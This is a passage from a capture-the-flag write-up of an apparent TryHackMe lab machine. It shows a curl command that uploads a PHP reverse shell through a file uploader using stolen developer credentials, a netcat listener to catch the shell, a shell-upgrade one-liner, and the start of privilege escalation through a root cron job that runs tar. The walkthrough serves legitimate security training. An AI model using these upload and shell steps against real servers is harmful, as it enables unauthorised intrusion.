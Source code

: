 ```
curl -F "file=@shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:<Password>
```

![](<../../../.gitbook/assets/image (6) (3).png>)

The response message includes the directory and name of the uploaded file. Using this information we start a netcat listener and browse to the uploaded reverse shell.

```
http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/<FileName>.php
```

Gaining access as _www-data_.

![](<../../../.gitbook/assets/image (25) (1).png>)

From here we give ourselves a better shell experience.

```
/usr/bin/script -qc /bin/bash /dev/null
```

### Crontab

Performing basic enumeration steps on the target system we find the file `/var/opt/backupsrv.sh` is executed by **root** every two minutes.

![](<../../../.gitbook/assets/image (1) (2) (1).png>)

Viewing the contents of the file we see that all files within `/home/server-management/Documents` are archived using `tar` everytime the scipt is run.
